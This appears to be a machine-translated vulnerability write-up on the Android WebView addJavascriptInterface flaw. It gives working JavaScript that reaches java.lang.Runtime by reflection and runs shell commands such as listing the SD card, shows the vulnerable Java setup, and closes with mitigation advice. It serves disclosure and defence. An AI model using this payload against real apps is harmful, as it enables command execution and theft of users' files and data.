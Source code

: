 ### Vulnerablity Impact:
Through the JavaScript, anything can access the device on the SD card, and even contact information, SMS etc.. It's disgusting, quack. 

1. WebView adds a JavaScript object, and the current application with SDCard read and write permissions, or: android.permission.WRITE_EXTERNAL_STORAGE

2. Through the window object can be found in JS, the object "getClass" method, and then through the reflection mechanism, get the Runtime object, then call the static method to run some commands, such as access to the file command.

3. The string returned from the execution command input stream, you can get the information of the file name. Then do what you want to do, good risk. The core JS code as follows: 


         function execute(cmdArgs)  
        {  
            for (var obj in window) {  
               if ("getClass" in window[obj]) {  
                alert(obj);  
                return  window[obj].getClass().forName("java.lang.Runtime")  
                     .getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
              }  
           }  
       }   

------

### Exploitation

In order to prove this loophole, I'm just loading a malicious JS code of the local Webpage, HTML the code as follows:


    <html>  
      <head>  
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">  
        <script>  
          var i=0;  
          function getContents(inputStream)  
          {  
            var contents = ""+i;  
            var b = inputStream.read();  
            var i = 1;  
            while(b != -1) {  
                var bString = String.fromCharCode(b);  
                contents += bString;  
                contents += "\n"  
                b = inputStream.read();  
            }  
            i=i+1;  
            return contents;  
           }  
            
           function execute(cmdArgs)  
           {  
            for (var obj in window) {  
                console.log(obj);  
                if ("getClass" in window[obj]) {  
                    alert(obj);  
                    return window[obj].getClass().forName("java.lang.Runtime").  
                        getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
                 }  
             }  
           }   
            
          var p = execute(["ls","/mnt/sdcard/"]);  
          document.write(getContents(p.getInputStream()));  
        </script>  
      
        <script language="javascript">  
          function onButtonClick()   
          {  
            // Call the method of injected object from Android source.  
            var text = jsInterface.onButtonClick("Text passed in from the JS！！！");  
            alert(text);  
          }  
      
          function onImageClick()   
          {  
            //Call the method of injected object from Android source.  
            var src = document.getElementById("image").src;  
            var width = document.getElementById("image").width;  
            var height = document.getElementById("image").height;  
      
            // Call the method of injected object from Android source.  
            jsInterface.onImageClick(src, width, height);  
          }  
        </script>  
      </head>  
      
      <body>  
          <p>Click on the image to the URL to Java code</p>  
          <img class="curved_box" id="image"   
             onclick="onImageClick()"  
             width="328"  
             height="185"
             src="https://avicoder.me/webview/phuck.png"  
             onerror="this.src='phuckerror.png'"/>  
        </p>  
        <button type="button" onclick="onButtonClick()">Interaction with the Java code</button>  
      </body>  
    </html>  

 1. Please seeexecute()The method, which the traversal of all window object, an object with a getClass method and then find, use this object class, find the java.lang.Runtime object, then call the "getRuntime" static method to get an instance of Runtime, and then call exec () method to execute a command.
 2. getContents()Methods, read from the stream, displayed in the interface.
 3. Key code is in the following sentences

`return      window[obj].getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);`

Java code is as follows: 
 
    mWebView = (WebView) findViewById(R.id.webview);  
    mWebView.getSettings().setJavaScriptEnabled(true);  
    mWebView.addJavascriptInterface(new JSInterface(), "jsInterface");  
    mWebView.loadUrl("file:///android_asset/html/test.html");  

Need to add permissions:  

    <uses-permission android:name="android.permission.INTERNET"/>  
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />  
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />  

------

### Mitigation
-  System Android 4.2 or above
In Android 4.2 or above, Google was modified, the statement on the Java remote method of a @JavascriptInterface, as in the following code: 


    class JsObject {  
       @JavascriptInterface  
       public String toString() { return "injectedObject"; }  
    }  
    webView.addJavascriptInterface(new JsObject(), "injectedObject");  
    webView.loadData("", "text/html", null);  
    webView.loadUrl("javascript:alert(injectedObject.toString())");  

-  System Android 4.2 below

This problem is difficult to solve, but also can not solve.
First of all, we must not call the addJavascriptInterface method. On this issue, the core is to know the JS event this one action, JS interacts with Java we know, there are several, than the prompt, alert, such action would correspond toWebChromeClientMethod, the corresponding class for prompt, which corresponds to theonJsPromptMethod, this method statement as follows: 


    public boolean onJsPrompt(WebView view, String url, String message,   
        String defaultValue, JsPromptResult result)  

By this method, JS can make information (text) transfer to Java, and Java also can get information (text) is transmitted to the JS.
